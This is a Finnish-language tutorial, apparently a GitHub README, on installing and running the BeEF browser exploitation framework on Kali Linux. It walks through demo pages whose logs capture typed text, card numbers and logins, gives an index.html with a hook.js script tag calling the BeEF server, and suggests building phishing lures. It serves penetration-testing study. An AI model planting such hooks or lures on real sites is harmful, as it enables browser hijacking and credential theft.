# BeEF

BeEF (The Browser Exploitation Framework), joka on <b>penetraatiotestaustyökalu</b>, joka keskityy verkkoselaimeen.

Penetraatio tarkoittaa läpäisyn tai tunkeutumista johonkin, että tarkoittaa myös tietomurtojen suojattuun tietojärjestelmän ulkoverkon kautta.


- [eka lataus ohje](#eka-lataus-ohje)
   * [pieni harjoitus](#pieni-harjoitus)

- [linkkei ja tarkennusta beef hakkeri työkalusta](#linkkei-ja-tarkennusta-beef-hakkeri-työkalusta)
   * [helpot steppit harjoitukset](#helpot-steppit-harjoitukset)

BeEF antaa ammattimaiselle leviämistestausta arvioidakseen kohdeympäristön todellisen suojausasennon käyttämällä asiakaspuolen hyökkäysvektoria. Toisin/muualle eri tavalla kuin tietoturvakehystä, BeEF tutkii kovetetun verkon kehän ja asiakasjärjestelmän ohi ja tutkii hyödynnettävyyden kuin yhden oven, verkkoselaimen puuteita. BeEF kiinittää yhden tai useamman verkkoselaimen ja käyttää niitä rantapäänä (beachheads) ohjattuihin komento moduulia käynnistämisessä ja lisähyökkäyksien järjestelmää vastaan selainkontekstissa.

Hakkerointivälineenä tehokas työkalu, jota järjestelmän asiantuntijat voivat hyödyntää mm. suunnittellakseen järjestelmiä, erityisesti verkkosovelluksia, jotka ovat turvallisia loppykäyttäjille käyttöön. Hakkeri, jolla on tarvittavia tietoja, voi olla myös lisätä omia muutoksia BeEF järjestelmän hakkerointikehykseen tehdäkseen niitä tehokkaamin. Hakkeri voi jopa esim. suunnitella minkä tahansa verkkosivuston kirjautumisen, joita hakkeri tarvitsee tietoja ja jopa muokkaa tietojenkalastelusivun URL-linkkien osoiteitta ja näyttävät uskottavalta uhrien silmien edessä. Kaikki käyttäjät tulee välttää vierailemasta haitallisia ja turvattomia verkkosivustoja, jotta vältettään BeEF hakkeroinnin uhreilta. Myös kaikki käyttäjät tulee tarkistaa niiden verkkosivujen aitoutta, jotka edellyttävät, että annettaan henlilökohtaisia tietoja.

Harjoituksen kannalta kantsii harjoittella mielellään esim. kokeillee itse tai lähipiirissä (sisarukset/kotiväelle) kaverille ja jne. mutta ei mielellään yrityksessä, koska muuten tuottaisi riskiä ja tietojen vuotamista. Jos yrityksessä niin kantsii antaaa jokin pieni varoitus, että kennelle antaa sitä suorittaa sitä harjoitusta ja tehtävää.

BeEF on kuin puhas/ei vuoda tietojen käyttöliittymä järjestelmä hyökkäyksiä tyypien mukaan ja myös ilmoittamalla, liittyykö kyseinen hyökkäys selaimeen kuten chrome. Eli voi osoittaa jotakin ja napsauttaa hyökkäyksiä käynnistäessä.

<details>


    


Hooked Browsers

tarkottaa kalastelujen työkaluja, mitä voi esim. saada ponnahtamaan ilmiotusta, päivitystä, evästeet (cookies), html koodia tai yms. periaatteessa kaikki selaimen sisäisen datan työkaluja ja mitä nykyään näkyy maailmassa. Sekä jokaisesta on värikoodi, että mitä jokainen testausta tarkoittaa.


</details>

<hr>

# eka lataus ohje

lataus ohjeita löytyy monipuolisesti, mutta suosituimmista jos käyttää kali linux pohjaa niin tästä suoraan; <br>
https://www.kali.org/tools/beef-xss/

```
┌──(root㉿kali)-[/home/kali]
└─# beef-xss
Command 'beef-xss' not found, but can be installed with:
apt install beef-xss
Do you want to install it? (N/y)y
apt install beef-xss
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done

```

Jos latauksessa tulee ongelmia eli `E: unable to locate package beef-xss` - tarkoittaa ettei ole saatavilla jotakin lataus pakettia, niin mahdollista, että kantsii päivittää kali linuxsta periaatteessa riittää syöttää `sudo apt-get update` nin päivittää kali linux paketti järjestelmän ja jne.
```
┌──(root㉿kali)-[/home/kali]
└─# sudo apt-get update             
Get:1 http://kali.download/kali kali-rolling InRelease [41.2 kB]
Get:2 http://kali.download/kali kali-rolling/main amd64 Packages [19.2 MB]
Get:3 http://kali.download/kali kali-rolling/main amd64 Contents (deb) [44.6 MB]
Get:4 http://kali.download/kali kali-rolling/contrib amd64 Packages [115 kB]                                   
Get:5 http://kali.download/kali kali-rolling/contrib amd64 Contents (deb) [172 kB]                             
Get:6 http://kali.download/kali kali-rolling/non-free amd64 Packages [217 kB]                                  
Get:7 http://kali.download/kali kali-rolling/non-free amd64 Contents (deb) [928 kB]                            
Fetched 65.4 MB in 14s (4,618 kB/s)                                                                            
Reading package lists... Done

```

Mikäli jos salasana unohtuu niin polusta `cd /usr/share/beef-xss/`polusta löytyy kyseisen käyttöjärjestelmän datat ja yleensä se on `config.yaml` tiedostona. `$sudo nano` pääsee muokkaa sen tiedoston järjestelmän niin siellä näkyy millä salasananalla se on, kantsii muuttaa sitä, ja jälki käteen tallentaa tehdyt muutokset. Uudelleen käynnistä BeEF järjestelmä `└─# beef-xss-stop -h` sammuttaa ja käynnistä takas eli `└─# beef-xss-h`

Sitten vaan syötät jokin uuden salsanan, ei kannatta käyttää sitä mitä muutettiin yaml tiedoston sisällä käytä jokin helppoa mikä itse muistuu mieleen

```
└─# beef-xss -h     
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: active (running) since Mon 2023-05-29 05:36:47 EDT; 5s ago
   Main PID: 673169 (ruby)
      Tasks: 4 (limit: 2261)
     Memory: 86.7M
        CPU: 1.710s
     CGroup: /system.slice/beef-xss.service
             └─673169 ruby /usr/share/beef-xss/beef
```


Kali linux root:in käyttäjänä lataa ton ylemmän linkin ohjeen mukaan tulee resetoida salasanan, nii katsii antaa joku helppo jotta itse muistaa. Ladatun jälkeen kirjautuu annettun oletus IP-osoitteen mukaan (URL) linkki. 

myös siinä antoi muutama vinkkiä, josta voi olla hyvä aloittaa `Web UI, Hook` ja yksi esimerkki alla

```
┌──(root㉿kali)-[/home/kali]
└─# beef-xss -h
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: active (running) since Sat 2023-05-27 10:13:49 EDT; 5s ago
   Main PID: 35093 (ruby)
      Tasks: 4 (limit: 2261)
     Memory: 95.4M
        CPU: 2.681s
     CGroup: /system.slice/beef-xss.service
             └─35093 ruby /usr/share/beef-xss/beef

```

huomiona sitten, `beef-xss-stop -h` tarkoittaa sammutettaan/lopetettaan beef sovelluksen penestestaus järjestelmää ja sama homma `beef-xss-h`ikään kuin aktivoi tai käynnistää sitä järjestelmän sovellusta.

```
┌──(root㉿kali)-[/home/kali]
└─# beef-xss-stop -h
○ beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: inactive (dead)

May 27 10:15:33 kali beef[35093]: [10:13:53]    |   Hook URL: http://192.168.X.Y:3000/hook.js
May 27 10:15:33 kali beef[35093]: [10:13:53]    |_  UI URL:   http://192.168.X.Y:3000/ui/panel
May 27 10:15:33 kali beef[35093]: [10:13:53][*] RESTful API key: LONG_API_KEY-IS-SOMETHING
May 27 10:15:33 kali beef[35093]: [10:13:53][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
May 27 10:15:33 kali beef[35093]: [10:13:53]    |_  Run geoipupdate to install
May 27 10:15:33 kali beef[35093]: [10:13:53][*] HTTP Proxy: http://127.0.0.1:6789
May 27 10:15:33 kali beef[35093]: [10:13:53][*] BeEF server started (press control+c to stop)
May 27 10:15:33 kali systemd[1]: beef-xss.service: Deactivated successfully.
May 27 10:15:33 kali systemd[1]: Stopped beef-xss.service - beef-xss.
May 27 10:15:33 kali systemd[1]: beef-xss.service: Consumed 2.796s CPU time.
                                                                                                                  
┌──(root㉿kali)-[/home/kali]
└─# 
                                                                                                                  
┌──(root㉿kali)-[/home/kali]
└─# beef-xss -h     
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: active (running) since Sat 2023-05-27 10:15:50 EDT; 5s ago
   Main PID: 36374 (ruby)
      Tasks: 4 (limit: 2261)
     Memory: 76.9M
        CPU: 1.952s
     CGroup: /system.slice/beef-xss.service
             └─36374 ruby /usr/share/beef-xss/beef

May 27 10:15:52 kali beef[36374]: [10:15:51]    |   Blog: http://blog.beefproject.com
```

## pieni harjoitus

Ylemmässä kappaleessa tapahtui se lataus eli `BeEF` install kohta. Niin siinä menee hetki, kun kali linux ymmärtää ja hakee niitä ladattavia paketteja ja yms.

Ladatun jälkeen kantsii käynnistää/aktivoida sitä eli `$beef-xss -h`, jonka latauksen jälkeen, tulostuu mielenkiintoisia kohtia erityisesti ovat; 
Nämä kertovat, mitä scriptiä tullaan käyttää, ja miten päästää siihen `BeEF` software järjestelmään, oletuksena jos laittaa url linkin `127.0.0.1` niin päästään siihen sivustolla, ja oletus mennään `beef;beef` ellei install latauksen aikana antanut jotakin muuta salasanaa.. 

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
```



myös vastaavasti, jos ei käytetä enään `BeEF` hakkeri työkalua niin sammuttaminen menee `beef-xss-stop -h`


myös meitä kiinnostaa tämän BeEF käyttöjärjestelmän sen yksittäisen kiinteän IP-osoite, vähä kuin jos ladannut tiettyä palvelinta tai jokin järjestelmän sovellusta niin tulee saamaan ikäänkuin jokin IP-osoite, ja usein oletuksena alkaa aina 192.168.X.Y jotakin. Eli mene `$root`:iin, ja polusta `cd /usr/share/beef` ja toista `$./beef`

```
┌──(root㉿kali)-[/usr/share/beef-xss]
└─# ./beef
[10:48:33][*] Browser Exploitation Framework (BeEF) 0.5.4.0
[10:48:33]    |   Twit: @beefproject
[10:48:33]    |   Site: https://beefproject.com
[10:48:33]    |   Blog: http://blog.beefproject.com
[10:48:33]    |_  Wiki: https://github.com/beefproject/beef/wiki
[10:48:33][*] Project Creator: Wade Alcorn (@WadeAlcorn)
-- migration_context()
   -> 0.0090s
[10:48:34][*] BeEF is loading. Wait a few seconds...
[10:48:34][!] [AdminUI] Error: Could not minify 'BeEF::Extension::AdminUI::API::Handler' JavaScript file: Invalid option: harmony
[10:48:34]    |_  [AdminUI] Ensure nodejs is installed and `node' is in `$PATH` !
[10:48:34][!] [AdminUI] Error: Could not minify 'BeEF::Extension::AdminUI::API::Handler' JavaScript file: Invalid option: harmony
[10:48:34]    |_  [AdminUI] Ensure nodejs is installed and `node' is in `$PATH` !
[10:48:34][*] 8 extensions enabled:
[10:48:34]    |   XSSRays
[10:48:34]    |   Social Engineering
[10:48:34]    |   Requester
[10:48:34]    |   Proxy
[10:48:34]    |   Network
[10:48:34]    |   Events
[10:48:34]    |   Demos
[10:48:34]    |_  Admin UI
[10:48:34][*] 309 modules enabled.
[10:48:34][*] 2 network interfaces were detected.
[10:48:34][*] running on network interface: 127.0.0.1
[10:48:34]    |   Hook URL: http://127.0.0.1:3000/hook.js
[10:48:34]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
[10:48:34][*] running on network interface: 192.168.X.Y
[10:48:34]    |   Hook URL: http://192.168.X.Y:3000/hook.js
[10:48:34]    |_  UI URL:   http://192.168.X.Y:3000/ui/panel
[10:48:34][*] RESTful API key: LONG_API_KEY-IS-SOMETHING
[10:48:34][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
[10:48:34]    |_  Run geoipupdate to install
[10:48:34][*] HTTP Proxy: http://127.0.0.1:6789
#<Thread:0x00007f94509bbd38 /usr/share/beef-xss/extensions/proxy/api.rb:16 run> terminated with exception (report_on_exception is true):
/usr/share/beef-xss/extensions/proxy/proxy.rb:20:in `initialize': Address already in use - bind(2) for "127.0.0.1" port 6789 (Errno::EADDRINUSE)
        from /usr/share/beef-xss/extensions/proxy/proxy.rb:20:in `new'
        from /usr/share/beef-xss/extensions/proxy/proxy.rb:20:in `initialize'
        from /usr/share/beef-xss/extensions/proxy/api.rb:18:in `new'
        from /usr/share/beef-xss/extensions/proxy/api.rb:18:in `block (2 levels) in pre_http_start'
        from /usr/share/beef-xss/extensions/proxy/api.rb:17:in `synchronize'
        from /usr/share/beef-xss/extensions/proxy/api.rb:17:in `block in pre_http_start'
[10:48:34][*] BeEF server started (press control+c to stop)
[10:48:34][!] Another process is already listening on port 3000, or you're trying to bind BeEF to an invalid IP.
[10:48:34][!] Is BeEF already running? Exiting...
```

<h3>Pieni huomio</h3>

Harjoitukseen pieni huomio, kun tässä `BeEF` ladattuna tulee oletuksena mukaan oma erillinsen perus sivusto. Usein erilaisissa hakkeri/monitori tai muissa työkaluissa tulee oletus sivusto tai tietty html sivusto mukana. Syötä tyhjään sivustoon välilehteen oletus linkki; `http://127.0.0.0:3000/demos/basic.html` - tätä ei varsinaisesti toistu siinä kommennossa `./beef` näkyvillä.





Lisä tarkennusta lisää tähän huomio harjoitukseen;

<details>

<h2> Ensimmäinen esimerkki; </h2> <br>

Tämä on se polku linkki seuraavista välilehdestä jos avaa just se oletus linkki `http://127.0.0.0:3000/demos/basic.html` ja oletus sivusto, paitsi noi tekstit tuli jälki käteen. niin lisää tuohon tyhjään formaattiin jotakn tekstiä niin ja jos vieressä on se BeEF seuranta järjestelmä niin josta tulostuu `Log` - näkymästä, että mitä käyttäjä on kirjoittanut



¨

<hr>

<h2> Toinen esimerkki; </h2> <br>
Täydennä vaan jokin satunnainen formaatti tilaus, ja klikkaa loppu peleissä "Buy buy" ja jonka jälkeen palaa takaisin BeEF hakkerien `Log`-valikkoon, josta näkee sen ikään kuin, mitä käyttäjä on tilannu, ja näkee jopa luottokorttin.





<hr>

<h2> Kolmas esimerkki; </h2> <br>
Vaikappa kirjautumisen johonkin, ja kirjoita vaan satunnainen sähköposti ja salsana. Loppu peleissä tässä toistuu sama kuin siinä ensimämisen ja toisen esimerkissä ja tarkista `Log` tiedosto ja jopa näkyy siinä url:in polussakin, että "Hei, tämä on minun käyttis?! miksi se on tässä"






BeEF `online Browsers`ikään kuin seuraa käyttäjän jokaista toimintaa, että missä klikannut, täydentänyt formaattia/kenttää, klikkauksesta lukenut mitä pdf:ää ja jne.

</details>

<h3>index.html</h3>

luo tyhjä index html sivusto esim. alemman formaattin mukaan ja ei tarvi olla täydellinen HTML sivusto pohja, tohon IP-osoite tulee se beef työkalun sen kiinte IP-osoite eli ylemmän `./beef` komennon mukaan mitä se ehdottaa ladatun järjestelmän mukaan, ja oletuksena vähä kuin kali linux lähellä sitä IP-osoitetta.

```
<html>
  <head>
    <title>BEEF HACKING</title>
      <script src="http://<beef-ip-add>:3000/hook.js"></script>
  </head>
  <body>
    <h1>YOU HAVE BEEN HACKED!!!</h1>
        <h2>moi miten menee muuten?</h2>
  </body>
</html>

```



Jonka jälkeen tarkista jostain kali linux firefox selaimesta tyhjän välilehden niin pidä samalla toi beef hakkeri järjestelmä päällä vaikka sivussa välilehdessä niin sieltä pitäisi ponnahtaa käyttäjän oma IP-osoite, että mihin kyseistä tätä sivustoa on käytetty tai ponnahtanut mm. vaikkapa käytetty just Chrome selaimeen, linux työkaluun ja mikä sen kiinteä IP-osoite on.



<h3>html huijauksia</h3>

Sitten vaan luomaan kyseiselle index.html:lle jotakn huijaus/kalastelua/päivitystä tai yms, testausta ns. kuin saisi leikisti oikean henkilön klikkamaan tai tekemään jotakin jännää.

